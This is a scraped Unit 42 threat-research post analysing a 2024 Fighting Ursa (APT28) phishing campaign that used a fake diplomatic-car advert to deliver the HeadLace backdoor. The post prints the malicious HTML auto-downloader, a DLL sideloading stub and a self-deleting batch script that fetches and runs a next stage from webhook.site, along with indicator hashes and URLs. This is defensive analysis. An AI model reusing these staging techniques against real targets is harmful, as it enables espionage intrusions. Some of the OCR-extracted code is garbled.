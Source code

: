 [comment]:<> (===START PAGE 1===)





























 Fighting Ursa Luring Targets With Car for Sale
 






































































































[![Logo](/wp-content/uploads/2021/07/PANW_Parent.png)](https://www.paloaltonetworks.com/)


[![Unit42 Logo](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/unit42-logo-white.svg)](https://unit42.paloaltonetworks.com/)













 Menu
 






* [Tools](https://unit42.paloaltonetworks.com/tools/)
* [ATOMs](https://unit42.paloaltonetworks.com/atoms/)
* [Security Consulting](https://www.paloaltonetworks.com/unit42)
* [About Us](https://unit42.paloaltonetworks.com/about-unit-42/)
* [**Under Attack?**](https://start.paloaltonetworks.com/contact-unit42.html)






















* [Threat Research Center](https://unit42.paloaltonetworks.com "Threat Research")
* [Threat Actor Groups](https://unit42.paloaltonetworks.com/category/threat-actor-groups/"Threat Actor Groups")
* [Nation-State Cyberattacks](https://unit42.paloaltonetworks.com/category/nation-state-cyberattacks/"Nation-State Cyberattacks")




[Nation-State Cyberattacks](https://unit42.paloaltonetworks.com/category/nation-state-cyberattacks/)
Fighting Ursa Luring Targets With Car for Sale
==============================================




![Clock Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-clock.svg)




 6
 



 min read
 



 Related Products
 

[![Advanced URL Filtering icon](0_image_0.png)
 Advanced URL Filtering](https://unit42.paloaltonetworks.com/product-category/advanced-url-filtering/"Advanced URL Filtering") 
[![Advanced WildFire icon](0_image_1.png)
 Advanced WildFire](https://unit42.paloaltonetworks.com/product-category/advanced-wildfire/"Advanced WildFire") 
[![Cloud-Delivered Security Services icon](0_image_2.png)
 Cloud-Delivered Security Services](https://unit42.paloaltonetworks.com/product-category/cloud-delivered-security-services/"Cloud-Delivered Security Services") 
[![Cortex icon](0_image_3.png)
 Cortex](https://unit42.paloaltonetworks.com/product-category/cortex/"Cortex") 
[![Cortex XDR icon](0_image_4.png)
 Cortex XDR](https://unit42.paloaltonetworks.com/product-category/cortex-xdr/"Cortex XDR") 
[![Cortex XSIAM icon](0_image_5.png)
 Cortex XSIAM](https://unit42.paloaltonetworks.com/product-category/cortex-xsiam/"Cortex XSIAM") 
[![Cortex XSOAR icon](0_image_6.png)
 Cortex XSOAR](https://unit42.paloaltonetworks.com/product-category/cortex-xsoar/"Cortex XSOAR") 







* ![Profile Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-profile-grey.svg)


 By: 

	+ [Unit 42](https://unit42.paloaltonetworks.com/author/unit42/)
* ![Published Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-calendar-grey.svg)


 Published: 
 2 August, 2024 at 3:00 AM PDT
* ![Tags Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-category.svg)


 Categories: 

	+ [Malware](https://unit42.paloaltonetworks.com/category/malware/)
	+ [Nation-State Cyberattacks](https://unit42.paloaltonetworks.com/category/nation-state-cyberattacks/)
	+ [Threat Actor Groups](https://unit42.paloaltonetworks.com/category/threat-actor-groups/)
	+ [Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
* ![Tags Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-tags-grey.svg)


 Tags: 

	+ [Advanced Persistent Threat](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/)
	+ [APT28](https://unit42.paloaltonetworks.com/tag/apt28/)
	+ [Fancy Bear](https://unit42.paloaltonetworks.com/tag/fancy-bear/)
	+ [Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/)
	+ [HeadLace](https://unit42.paloaltonetworks.com/tag/headlace/)
	+ [Phishing](https://unit42.paloaltonetworks.com/tag/phishing/)
	+ [Russia](https://unit42.paloaltonetworks.com/tag/russia/)



* [![Download Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-download.svg)](https://unit42.paloaltonetworks.com/fighting-ursa-car-for-sale-phishing-lure/?pdf=download&lg=en&_wpnonce=cac75f047a "Click here to download")
* [![Print Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-print.svg)](https://unit42.paloaltonetworks.com/fighting-ursa-car-for-sale-phishing-lure/?pdf=print&lg=en&_wpnonce=cac75f047a "Click here to print")



[Share
 ![Down arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/down-arrow.svg)](# "Click here to share")
* [![Link Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-share-link.svg)](# "Copy link")
* [![Link Email](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-sms.svg)](mailto:?subject=Fighting%20Ursa%20Luring%20Targets%20With%20Car%20for%20Sale&body=Check%20out%20this%20article%20https%3A%2F%2Funit42.paloaltonetworks.com%2Ffighting-ursa-car-for-sale-phishing-lure%2F "Share in email")
* [![Facebook Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-fb-share.svg)](https://www.facebook.com/sharer/sharer.php?u=https%3A%2F%2Funit42.paloaltonetworks.com%2Ffighting-ursa-car-for-sale-phishing-lure%2F "Share in Facebook")
* [![LinkedIn Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-linkedin-share.svg)](https://www.linkedin.com/sharing/share-offsite/?url=https%3A%2F%2Funit42.paloaltonetworks.com%2Ffighting-ursa-car-for-sale-phishing-lure%2F&title=Fighting%20Ursa%20Luring%20Targets%20With%20Car%20for%20Sale "Share in LinkedIn")
* [![Twitter Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-twitter-share.svg)](https://twitter.com/intent/tweet?url=https%3A%2F%2Funit42.paloaltonetworks.com%2Ffighting-ursa-car-for-sale-phishing-lure%2F&text=Fighting%20Ursa%20Luring%20Targets%20With%20Car%20for%20Sale "Share in Twitter")
* [![Reddit Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-reddit-share.svg)](//www.reddit.com/submit?url=https%3A%2F%2Funit42.paloaltonetworks.com%2Ffighting-ursa-car-for-sale-phishing-lure%2F "Share in Reddit")
* [![Mastodon Icon](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-mastodon-share.svg)](https://mastodon.social/share?text=Fighting%20Ursa%20Luring%20Targets%20With%20Car%20for%20Sale%20https%3A%2F%2Funit42.paloaltonetworks.com%2Ffighting-ursa-car-for-sale-phishing-lure%2F "Share in Mastodon")
















 This post is also available in: 
[日本語
 


 (
 
 Japanese
 
 )](https://unit42.paloaltonetworks.jp/fighting-ursa-car-for-sale-phishing-lure/)




Executive Summary
-----------------



 A Russian threat actor we track as
 [Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/) 
 advertised a car for sale as a lure to distribute
 [HeadLace](https://malpedia.caad.fkie.fraunhofer.de/details/win.headlace) 
 backdoor malware.The campaign likely targeted diplomats and began as early as March 2024.Fighting Ursa (aka APT28, Fancy Bear and Sofacy) has been
 [associated with Russian military intelligence and classified as an advanced persistent threat (APT) [PDF]](https://strapi.eurepoc.eu/uploads/Eu_Repo_C_APT_profile_APT_28_4856c0a0ac.pdf) 
. 



 Diplomatic-car-for-sale phishing lure themes have been used by Russian threat actors for years.These lures tend to resonate with diplomats and get targets to click on the malicious content. 



 Unit 42 has previously observed other threat groups using this tactic.For example, in 2023, a different Russian threat group,
 [Cloaked Ursa](https://unit42.paloaltonetworks.com/cloaked-ursa-phishing/) 
 , repurposed an advertisement for a BMW for sale to target diplomatic missions within Ukraine.This campaign is not directly connected to the Fighting Ursa campaign described here.However, the similarity in tactics points to known behaviors of Fighting Ursa.The Fighting Ursa group is known for repurposing successful tactics – even
 [continuously exploiting known vulnerabilities for 20 months](https://unit42.paloaltonetworks.com/russian-apt-fighting-ursa-exploits-cve-2023-233397/) 
 after their cover was already blown. 



 The details of the March 2024 campaign, which we attribute to Fighting Ursa with a medium to high level of confidence, indicate the group targeted diplomats and relied on public and free services to host various stages of the attack.This article examines the infection chain from the attack. 



 Palo Alto Networks customers are better protected from the threats discussed in this article through our
 [Network Security](https://www.paloaltonetworks.com/network-security) 
 solutions, such as
 [Advanced WildFire](https://www.paloaltonetworks.com/network-security/advanced-wildfire) 
 and
 [Advanced URL Filtering](https://docs.paloaltonetworks.com/advanced-url-filtering) 
 , as well as our
 [Cortex](https://www.paloaltonetworks.com/cortex) 
 line of products. 



 If you think you might have been compromised or have an urgent matter, contact the
 [Unit 42 Incident Response team](https://start.paloaltonetworks.com/contact-unit42.html) 
. 




| **Related Unit 42 Topics** | [**APTs**](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/)  ,  **[Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/)** |
| --- | --- |


Initial Lure
------------



 The
 [URL kicking off this infection chain](https://www.virustotal.com/gui/url/7721209735fc8e3d0ccd88bae7f7f37cfcc453288f82b85e57686192a8efd83f) 
 was hosted by a legitimate service named
 [Webhook.site](https://docs.webhook.site/) 
 , and it was submitted to VirusTotal on March 14, 2024.Webhook.site is a service for legitimate development projects, and it allows its users to create randomized URLs for various purposes like custom automation based on the characteristics of visitors to the URLs. 



 In this case, Fighting Ursa abused Webhook.site to craft a URL that returned
 [a malicious HTML page](https://www.virustotal.com/gui/file/cda936ecae566ab871e5c0303d8ff98796b1e3661885afd9d4690fc1e945640e) 
.Figure 1 below shows the HTML returned from the
 
 webhook.site
 
 URL. 





[comment]:<> (===START IMAGE DETECTED===)

![A screenshot of an HTML document code on a computer screen, displaying various script tags and a hyperlink with a detailed URL.The document includes standard HTML structure tags such as doctype, head, and body.](0_image_7.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
<script>
1234567∞
1 <!DOCTYPE html>
2 <html>
<head>
window.history.pushState("
</script>
<script>
'https://webhook.site/IMG-387470302099.zip');
if (!window.navigator.userAgent.toLowerCase().includes('win')) window.location.replace('https://i.ibb.co/vVSCr2Z/car-for-sale.jpg')
8
9
</script>
10
<script>
11
12
var a = document.createElement('a');
a.href =
'data:application/zip;base64, UESDBBQAAAAIAN2U7TreXX6W1tMFAAAEDgAYAAAASU1HLTM4NzQ3MDMwMjA50S5qcGci
JI5JHZuQNTCDs VEHQYJQWBSFREATIZADDYwhVrNpai0t3W1BUwqJKARIIa0AIiizi8oYAsggkAFL60+e9SULAtn/0n35f+TTvrueee++5
y47rWwofNdvZqcDk3d1p1FNTZiZMnzHtyRmPPZ209dgzz0zLSXj8iYQZuc8kTHkmwTVsZMLT0yY/05smpnmiAePY9pzv3vtbm48j//17/OML/F328R/4q/B3xJSspwjOT+Gc6RaEyQvtwv5tjwxumMedQgtzMzGLgjno7isYJ1JEGL1eqT0tFKQ7MhF/ud/yS2pUChf2xLVaXmC4NDLEY LQYxt9bkgK8V12YRSBOhs1vN4FgBZECe9NbtQgoaUwFxs0tZ1d6CF8+3+qGfMzUT+7kBYtCEsft990L
LeUwQNrc0oYDa4tv6+0Zp+K8XNwP6Q21Ns Ib0TYxq2q6w13RuqM9xAeqz8Z0RdS08GTNnZCHNa3IW9V3xrbxZuyemTkPDuRZeKyJki
hLfHdjLJJQfQr4DvifwfQVfou82+F7F90m0s5uE+nZHjz4y+FZTQ7/F+CY@yt+LbxLar8b3PnxfwjcNXxP6efH9DN8x9e0b/02U3V5v5p9ek6d0Rdo7Vsr0cPrJyVOmT82dyWnJNQbFRqNncvC318vrFYZ53dLoUUbx6Fmjnnri65c4PW3qE0Zp+rCM9FER8EPCI4
pycqxnaEYGp8a4R4Z0DBvK6UGuyOBPz3wua0YOJ/...';
a.download
=
IMG-387470302099.zip';
13
14
a.click();
15
</script>
16
</head>
17
<body></body>
18 </html>
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 1.HTML code used in the attack hosted on the Webhook.site service. 




 The HTML shown above in Figure 1 has multiple elements that attempt to automate the attack.First, it checks if the visiting computer is Windows-based.If not, it redirects to a decoy image on
 [a URL hosted by another legitimate provider](https://www.virustotal.com/gui/url/26df5d7ed6748ad3ea9e2e18db3e6535ef99cb4b1a0c46218f91db7626d3efd5) 
 , which is a free service named
 [ImgBB](https://imgbb.com/upload) 
.As the final payload is Windows based, this operating system check is probably an effort to ensure that further actions taken in the attack are only taken for Windows visitors.The HTML then creates a ZIP archive from Base64 text in the HTML, offers it for download and attempts to open it with the JavaScript
 
 click()
 
 function. 



 Figure 2 below shows
 [the decoy image](https://www.virustotal.com/gui/file/7c85ff89b535a39d47756dfce4597c239ee16df88badefe8f76051b836a7cbfb) 
 advertising a car for sale, specifically an Audi Q7 Quattro SUV.This fake advertisement is titled “Diplomatic Car For Sale.”
 



 The image provides different views of the vehicle.The image also contains contact details that are likely fake, as well as a phone number based in Romania.Finally, the image also lists the point of contact as the Southeast European Law Enforcement Center, possibly to lend this fake advertisement more credibility. 





[comment]:<> (===START IMAGE DETECTED===)

![Compilation of six photographs displaying a used Audi Q7 for sale.The top three images show the front, side, and rear exterior views of a black Audi parked on a street.The bottom left image features the car's dashboard, highlighting the odometer showing mileage at 150,390 km.The next two images provide different angles of the steering wheel and the control panel, showcasing the car interior.Inserted in the top-middle image, there is a text detail about the car, listing price, year, model, trim, transmission type, mileage, web contact details, condition statement, and availability, all uniformly typed in a clear font.](0_image_8.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
DIPLOMATIC CAR FOR SALE
Model Audi Q7 Quatro
Engine 3.000 TDI
Fuel Diesel
Transmission:Automatic
Mileage 336.000 km
Year 2009
Price 5.500 Euro.Winter tires included in the price, perfect condition, available immediately
For more information, please contact
Mobile:+40
E-mail:@selec.org
Web:www.selec.org
1000
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 2.Diplomatic car for sale lure hosted on ImgBB. 



Downloaded Malware
------------------



 The downloaded ZIP archive is saved as
 [IMG-387470302099.zip](https://www.virustotal.com/gui/file/dad1a8869c950c2d1d322c8aed3757d3988ef4f06ba230b329c8d510d8d9a027)
 and contains three files listed below in Table 1. 




| **File Size** | **Modified Date and Time** | **File Name** |
| --- | --- | --- |
| 918,528 bytes | 2009-07-13 18:38 UTC | IMG-387470302099.jpg.exe |
| 9,728 bytes | 2024-03-13 00:37 UTC | WindowsCodecs.dll |
| 922 bytes | 2024-03-13 00:37 UTC | zqtxmo.bat |



 Table 1.Contents of the downloaded file
 
 IMG-387470302099.zip
 
. 



 Table 1 above shows that the first file
 
 IMG-387470302099.jpg.exe
 
 has a double file extension of
 
.jpg.exe
 
.Windows hosts with a default configuration hide file extensions, so the
 
.jpg.exe
 
 file extension only shows as
 
.jpg
 
 in the file name.This is a common tactic used by threat actors to trick potential victims into double-clicking the file, in this case believing it will open a car for sale advertisement. 



 The file named
 
 IMG-387470302099.jpg.exe
 
 is a copy of the legitimate Windows calculator file
 
 calc.exe
 
.This file is used to sideload the included DLL file
 
 WindowsCodecs.dll
 
 , which is a component of the
 [HeadLace](https://malpedia.caad.fkie.fraunhofer.de/details/win.headlace) 
 backdoor. 



 HeadLace is modular malware that executes in stages.This stage-based loading is probably designed to prevent detection and minimize the malware's exposure to analysts.The DLL file contains a function shown below in Figure 3. 





[comment]:<> (===START IMAGE DETECTED===)

![Code snippet displaying a function called DllMain which includes a conditional statement that executes a system command to run "qazmo.bat" when the function's reason for being called equals 1.](0_image_9.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
BOOL _stdcall DllMain (HINSTANCE hinstDLL, DWORD fdw Reason, LPVOID 1pvReserved)
{
if (fdwReason == 1 )
system("zqtxmo.bat");
return 1;
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 3.Code in
 
 WindowsCodecs.dll
 
 file to run a file named
 
 zqtxmo.bat
 
. 




 This function is solely meant to execute the last file within the ZIP archive,
 
 zqtxmo.bat
 
.Figure 4 below shows the content of
 
 zqtxmo.bat
 
. 





[comment]:<> (===START IMAGE DETECTED===)

![The image shows a computer screen displaying several lines of code or terminal commands.Text highlighted in green is the contents of a BAT file, indicated in a box outlined in white.](0_image_10.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
1@echo off
2 if not DEFINED IS MINIMIZED set IS_MINIMIZED=1 && start ""/min "%~dpnx0" ** && exit
3 start msedge data:text/html;base64,
4
PHRpdGx1Pk1NRy0zODc0NzAzMDIwOTkuanBnPC90aXRsZT48aWZyYW1lIHNyYz0iaHR0cHM6Ly93ZWJob29rLnNpdGUv
ZDI5MDM3N2MtODJiNS00NzY1LWFjYjgtNDU0ZWRmNjQyNWRkIiBzdHlsZT0icG9zaXRpb246Zml4ZWQ7IHRvcDowOyBs
ZWZ0OjA7IGJvdHRvbTowOyByaWdodDowOyB3aWR0aDoxMDAloyBoZWlnaHQ6MTAwJTsgYm9yZGVyOm5vbmU7IG1hcmdg
bjowOyBwYWRkaW5nOjA7IG92ZXJmbG930mhpZGRlbjsqeilpbmRleDo50Tk50Tk7Ij48L21mcmFtZT4=
timeout 15 > nul
move 'userprofile%\downloads\IMG-387470302099.jpg %programdata%\IMG-387470302099.cmd > nul
type nul > 'userprofile%\downloads\IMG-387470302099.jpg
8call %programdata%\IMG-387470302099.cmd
9 del/q/f/a %0 & exit
1 <title>IMG-387470302099.jpg</title>
2
<iframe src="https://webhook.site/d290377c-82b5-4765-acb8-454edf6425dd"
style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%;
border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">
3 </iframe>
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)




 Figure 4.Contents of the
 
 zqtxmo.bat
 
 batch file. 




 This batch file starts a process for Microsoft Edge (
 
 start msedge
 
 ) to run content passed as Base64-encoded text.As shown above in Figure 4, the decoded text is a hidden iframe that retrieves content from
 [a different Webhook.site URL](https://www.virustotal.com/gui/url/844ac27e672a1fc6840a29b3c8443004b06469905b82dbbcf56dd5b53fea9484) 
. 



 The batch file saves content from this second Webhook.site URL as
 
 IMG387470302099.jpg
 
 in the user's downloads directory.It then moves the downloaded file into the
 
 %programdata%
 
 directory and changes the file extension from
 
.jpg
 
 to
 
.cmd
 
.Finally, the batch file executes
 
 IMG387470302099.cmd
 
 , then deletes itself as a way to remove any obvious trace of malicious activity. 


Attribution
-----------



 We attribute this activity with a medium to high level of confidence to Fighting Ursa based on the tactics, techniques and procedures (TTPs), characteristics of the attack infrastructure and the malware family attackers used. 



 This attack relies heavily on public and free services to host lures and various stages of the attack.Documentation by
 [IBM](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
 ,
 [Proofpoint](https://www.proofpoint.com/us/blog/threat-insight/ta422s-dedicated-exploitation-loop-same-week-after-week) 
 ,
 [Recorded Future](https://www.recordedfuture.com/grus-bluedelta-targets-key-networks-in-europe-with-multi-phase-espionage-camp) 
 and others reveal that while the infrastructure used by Fighting Ursa varies for different attack campaigns, the group frequently relies on these freely available services.Furthermore, the tactics from this campaign fit with previously documented Fighting Ursa campaigns, and the
 [HeadLace backdoor is exclusive to this threat actor](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
. 


Conclusion
----------



 Fighting Ursa is a motivated threat actor.The infrastructure the group uses has constantly changed and evolved, as noted in a
 [recent report](https://www.recordedfuture.com/grus-bluedelta-targets-key-networks-in-europe-with-multi-phase-espionage-camp) 
 from Recorded Future.Other industry reports have also shown various lures this actor uses in attempts to drop HeadLace malware. 



 We assess that Fighting Ursa will continue to use legitimate web services in its attack infrastructure.To defend against these attacks, defenders should limit access to these or similar hosting services as necessary.If possible, organizations should scrutinize the use of these free services to identify possible attack vectors. 


### Palo Alto Networks Protection and Mitigation



 Palo Alto Networks customers are better protected from the threats discussed above through the following products: 


* [Cortex XDR](https://www.paloaltonetworks.com/cortex/cortex-xdr) 
 detects the attack chain described above, among other protections in the Cortex XDR platform.* [Cortex XSIAM](https://docs-cortex.paloaltonetworks.com/p/XSIAM) 
 and
 [XSOAR](https://docs-cortex.paloaltonetworks.com/p/XSOAR) 
 have released
 [a response pack and playbook](https://xsoar.pan.dev/docs/reference/playbooks/fighting-ursa-luring-targets-with-car-for-sale) 
 for automatically detecting the Fighting Ursa threat actor.This playbook downloads the APT28 detection rules and performs extraction, enrichment, and tagging of indicators.It executes our generic Threat Hunting sub-playbook and subsequently provides analysts with recommended workarounds, empowering them to decide the best course of action with the enriched indicators.* [Advanced URL Filtering](https://docs.paloaltonetworks.com/advanced-url-filtering) 
 identifies known URLs associated with this activity as malicious.* The
 [Advanced WildFire](https://docs.paloaltonetworks.com/wildfire) 
 machine-learning models and analysis techniques have been reviewed and updated in light of the IoCs shared in this research.


 If you think you may have been compromised or have an urgent matter, get in touch with the
 [Unit 42 Incident Response team](https://start.paloaltonetworks.com/contact-unit42.html) 
 or call: 


* North America Toll-Free:866.486.4842 (866.4.UNIT42)
* EMEA:+31.20.299.3130
* APAC:+65.6983.8730
* Japan:+81.50.1790.0200



 Palo Alto Networks has shared these findings with our fellow Cyber Threat Alliance (CTA) members.CTA members use this intelligence to rapidly deploy protections to their customers and to systematically disrupt malicious cyber actors.Learn more about the
 [Cyber Threat Alliance](https://www.cyberthreatalliance.org) 
. 


Indicators of Compromise
------------------------



 HTML page hosted on webhook site with decoy image and payload zip file: 


* cda936ecae566ab871e5c0303d8ff98796b1e3661885afd9d4690fc1e945640e



 Car for sale image lure: 


* 7c85ff89b535a39d47756dfce4597c239ee16df88badefe8f76051b836a7cbfb



 ZIP file containing
 
 calc.exe
 
 , malicious DLL and BAT file: 


* dad1a8869c950c2d1d322c8aed3757d3988ef4f06ba230b329c8d510d8d9a027



 Legitimate
 
 calc.exe
 
 abused to sideload the malicious DLL: 


* c6a91cba00bf87cdb064c49adaac82255cbec6fdd48fd21f9b3b96abf019916b



 Malicious file named
 
 WindowsCodecs.dll
 
 sideloaded by
 
 calc.exe
 
: 


* 6b96b991e33240e5c2091d092079a440fa1bef9b5aecbf3039bf7c47223bdf96



 Batch file named
 
 zqtxmo.bat
 
 executed by the above malicious DLL: 


* a06d74322a8761ec8e6f28d134f2a89c7ba611d920d080a3ccbfac7c3b61e2e7



 URLs that hosted content for this campaign: 


* https://webhook.site/66d5b9f9-a5eb-48e6-9476-9b6142b0c3ae
* https://webhook.site/d290377c-82b5-4765-acb8-454edf6425dd
* https://i.ibb.co/vVSCr2Z/car-for-sale.jpg


Additional Resources
--------------------


* [GRU’s BlueDelta Targets Key Networks in Europe with Multi-Phase Espionage Campaigns [PDF]](https://go.recordedfuture.com/hubfs/reports/CTA-RU-2024-0530.pdf) 
 – Recorded Future
* [ITG05 operations leverage Israel-Hamas conflict lures to deliver Headlace malware](https://securityintelligence.com/x-force/itg05-ops-leverage-israel-hamas-conflict-lures-to-deliver-headlace-malware/) 
 – IBM
* [TA422’s Dedicated Exploitation Loop—the Same Week After Week](https://www.proofpoint.com/us/blog/threat-insight/ta422s-dedicated-exploitation-loop-same-week-after-week) 
 – Proofpoint



*Updated August 2, 2024, at 7:35 a.m.PT to add Cortex XSOAR and XSIAM product protections and playbook link.* 




*Updated August 5, 2024, at 8:37 a.m.PT to update Cortex XSOAR and XSIAM playbook link.* 






 Back to top
 

### Tags


* [Advanced Persistent Threat](https://unit42.paloaltonetworks.com/tag/advanced-persistent-threat/"Advanced Persistent Threat")
* [APT28](https://unit42.paloaltonetworks.com/tag/apt28/"APT28")
* [Fancy Bear](https://unit42.paloaltonetworks.com/tag/fancy-bear/"Fancy Bear")
* [Fighting Ursa](https://unit42.paloaltonetworks.com/tag/fighting-ursa/"Fighting Ursa")
* [HeadLace](https://unit42.paloaltonetworks.com/tag/headlace/"HeadLace")
* [Phishing](https://unit42.paloaltonetworks.com/tag/phishing/"phishing")
* [Russia](https://unit42.paloaltonetworks.com/tag/russia/"Russia")




[Threat Research Center](https://unit42.paloaltonetworks.com "Threat Research")
[Next:Identifying a BOLA Vulnerability in Harbor, a Cloud-Native Container Registry](https://unit42.paloaltonetworks.com/bola-vulnerability-impacts-container-registry-harbor/"Identifying a BOLA Vulnerability in Harbor, a Cloud-Native Container Registry")






### Table of Contents



* 




### Related Articles


* [Scam Attacks Taking Advantage of the Popularity of the Generative AI Wave](https://unit42.paloaltonetworks.com/cybersquatting-using-genai-keywords/"article - table of contents")
* [Threat Actor Groups Tracked by Palo Alto Networks Unit 42](https://unit42.paloaltonetworks.com/threat-actor-groups-tracked-by-palo-alto-networks-unit-42/"article - table of contents")
* [Operation Diplomatic Specter:An Active Chinese Cyberespionage Campaign Leverages Rare Tool Set to Target Governmental Entities in the Middle East, Africa and Asia](https://unit42.paloaltonetworks.com/operation-diplomatic-specter/"article - table of contents")









Related Resources
-----------------








[comment]:<> (===START IMAGE DETECTED===)

![Pictorial representation of phishing or cybersquatting using GenAI keywords.Glowing cube with the letters 'AI' illuminated in blue, centered on a complex network of interconnected circuits and digital nodes, suggesting advanced technology and artificial intelligence themes.](0_image_11.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
AI
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)





[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Scam Attacks Taking Advantage of the Popularity of the Generative AI Wave](https://unit42.paloaltonetworks.com/cybersquatting-using-genai-keywords/)
* [ChatGPT](https://unit42.paloaltonetworks.com/tag/chatgpt/"ChatGPT")
* [GenAI](https://unit42.paloaltonetworks.com/tag/genai/"GenAI")
* [Cybersquatting](https://unit42.paloaltonetworks.com/tag/cybersquatting/"cybersquatting")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/cybersquatting-using-genai-keywords/"Scam Attacks Taking Advantage of the Popularity of the Generative AI Wave")








[comment]:<> (===START IMAGE DETECTED===)

![Representation of accelerating malware analysis.Two professionals working in a high-tech monitoring room filled with large screen displays showing data and graphs.One person is seated looking at a monitor, while the other, wearing glasses, is deep in thought.](0_image_12.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
EREE
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)





[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Accelerating Analysis When It Matters](https://unit42.paloaltonetworks.com/accelerating-malware-analysis/)
* [Remote Access Trojan](https://unit42.paloaltonetworks.com/tag/remote-access-trojan/"Remote Access Trojan")
* [Memory detection](https://unit42.paloaltonetworks.com/tag/memory-detection/"memory detection")
* [Redline infostealer](https://unit42.paloaltonetworks.com/tag/redline-infostealer/"Redline infostealer")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/accelerating-malware-analysis/"Accelerating Analysis When It Matters")








[comment]:<> (===START IMAGE DETECTED===)

![A digital concept of BadPack malware showing a large malware alert symbol on a screen, set against a background filled with lines of computer code and network diagrams in shades of blue and pink.The word "MALWARE" prominently displayed within the alert symbol.](0_image_13.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
rand
Fig script src= {?urkrown}
local.config statusperor [error]
X
A
MALWARE
firetlog.origir set (278.56.34,4) if = Frame d
[comment]:<> (===END EMBEDDED IMAGE EXTRACTION===)

[comment]:<> (===END IMAGE DETECTED===)





[![ category icon](https://unit42.paloaltonetworks.com/wp-content/uploads/2024/06/icon-threat-research.svg)
 Threat Research](https://unit42.paloaltonetworks.com/category/threat-research/)
[#### Beware of BadPack:One Weird Trick Being Used Against Android Devices](https://unit42.paloaltonetworks.com/apk-badpack-malware-tampered-headers/)
* [Android APK](https://unit42.paloaltonetworks.com/tag/android-apk/"Android APK")
* [APK](https://unit42.paloaltonetworks.com/tag/apk/"APK")
* [Cerberus trojan](https://unit42.paloaltonetworks.com/tag/cerberus-trojan/"Cerberus trojan")




[Read now
 ![Right arrow](https://unit42.paloaltonetworks.com/wp-content/themes/unit42-v6/dist/images/icons/icon-right-arrow-withtail.svg)](https://unit42.paloaltonetworks.com/apk-badpack-malware-tampered-headers/"Beware of BadPack:One Weird Trick Being Used Against Android Devices")








[comment]:<> (===START IMAGE DETECTED===)

![Person in a blurred motion is working on a computer with screen showing lines of code, emphasizing a dynamic and intense focus on software development or programming in a dimly lit room.](0_image_14.png)

[comment]:<> (===START EMBEDDED IMAGE EXTRACTION===)
وله
cl
Tysk
eu classemerit-swer brete" data-metrics-action="like Jap
4 classr
<a href="/sections/" data-atrice-action click
<button class="menu_toggle-submers" data-metrice-action "toggle great”ition for wha
cassette"/sections/national/cat-trics-cio ONDERSTOR
fr/ctions/science/" data-netrics-acting
Lastention/techning" data-metras-acti
Class 1905 "/sections/costove" data-etric-antilly PHO
<a clas
strics-action"click arts & life sirts
chitton slaggle-subers" data-etrics-action"toggle arts for Arts Left
Class sarts-life
<i clarefa"/books/" datatrics actitu
il claustrefa/sections/movies
<centes brefs"/sections/televisi dats-metrics actionslick television"televisio
